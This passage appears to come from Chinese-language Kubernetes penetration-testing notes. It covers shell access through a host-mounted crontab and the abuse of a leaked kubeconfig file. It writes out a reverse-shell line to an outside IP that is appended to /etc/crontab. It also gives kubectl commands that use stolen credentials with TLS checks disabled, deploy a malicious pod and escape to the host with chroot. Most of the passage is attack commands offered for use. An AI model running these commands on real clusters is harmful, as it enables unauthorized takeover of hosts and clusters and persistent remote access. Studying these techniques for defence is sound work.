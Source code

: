 可以通过写crontab获取shell

```javascript
echo -e "* * * * * /bin/bash -i >& /dev/tcp/192.168.0.139/1234 0>&1" >> /mnt/etc/crontab
```

或者通过chroot来获取终端
![28e9abcd198921874f803b64c33e51aa.png](..\..\images\UzJuMarkDownImage28e9abcd198921874f803b64c33e51aa.png)





## K8s configfile 泄露

K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。

如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。

用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：

1. 如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
2. 如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
3. 如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。



### 漏洞利用

- 通过Dashboard的配置文件方式登录

- 使用kubectl

  ```shell
  # 连接
  kubectl -s https://ip:6443 --kubeconfig=config1 -insecure-skip-tls-verify=true get nodes
  
  # 创建恶意pod
  kubectl apply -f test.yaml -n default --kubeconfig=config1 --insecure-skip-tls-verify=true
  
  #连接 pod 后进行容器挂载逃逸
  kubectl exec -it myapp  bash  -n default --kubeconfig=config1
  cd /mnt
  chroot . bash
  ```
